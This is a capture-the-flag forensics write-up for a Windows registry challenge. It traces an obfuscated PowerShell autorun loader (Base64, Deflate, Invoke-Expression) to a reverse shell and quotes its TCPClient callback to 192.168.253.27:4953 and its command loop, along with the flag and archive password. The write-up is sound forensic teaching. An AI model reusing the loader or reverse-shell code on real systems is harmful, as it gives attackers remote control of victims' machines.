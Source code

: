 ### TITLE
>Sổ đăng ký
### DESCRIPTION
>Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.

>Tải challenge: https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)

>Format Flag: CHH{XXX}
### CATEGORY
>Forensics
### HINT
>None
### DIFFICULTY
>easy
### Pass
>cookiehanhoan
### Tool
>[RegRipper](https://github.com/keydet89/RegRipper3.0)
### FLAG
>CHH{N0_4_go_n0_st4r_wh3r3}
### SOLVED
So download the zip file and you get the NTUSER.DAT file. Do a little research and you will find out that it is used to store user profile settings from the Windows registry. 
![image](https://github.com/user-attachments/assets/5214804f-eb55-499e-95f5-52c78d4c1004)

 Continue to use the __regRipper__ to extract forensic artifacts from Windows Registry hives to a report.txt file. After that take a look at the report and I stumbled upon the powershell.exe that being set autorun with a sus obfuscation script. A brief analysis of the script: This PowerShell script is obfuscated something that extracts, decompresses, and executes hidden code.

![image](https://github.com/user-attachments/assets/3bc88a07-83d0-4763-8bc5-a87544198746)

+ __[coNVeRT]::FRoMBAse64stRInG('<Long Base64 string>')__: Extracts hidden malicious code from the Base64-encoded string.
+ __neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] <Base64DecodedData>, [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)__: Decompresses the extracted binary using Deflate compression.
+ ___FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()__: Reads the decoded PowerShell script into a string.
+ __|inVOKe-exprEsSIon__: Executes it with Invoke-Expression, likely running malware.

So our attention is the Base64 string so I use Powershell script to decode it and write the result to __output.txt__ (__decode.ps1__). Unsurprisingly, it is a __reverse shell__ script that print out the flag, read the script and you will get the flag!!

P/S: Analyze the reverse shell:
+ __$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27",4953);__: Creates a TCP connection to 192.168.253.27:4953. Attacker machine!!
+ __while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){__: Loops indefinitely to receive data from the attacker's machine.
+ __$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);__: Converts received bytes into a command string.
+ __$sendback2 = $sendback + "<Flag>" + (pwd).Path + "> ";__: Appends a flag to the output 
+ __$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);__: Converts output to ASCII bytes for transmission.
+ __$stream.Write($sendbyte,0,$sendbyte.Length);__: Sends the command output back to the attacker's machine.
#### END!!
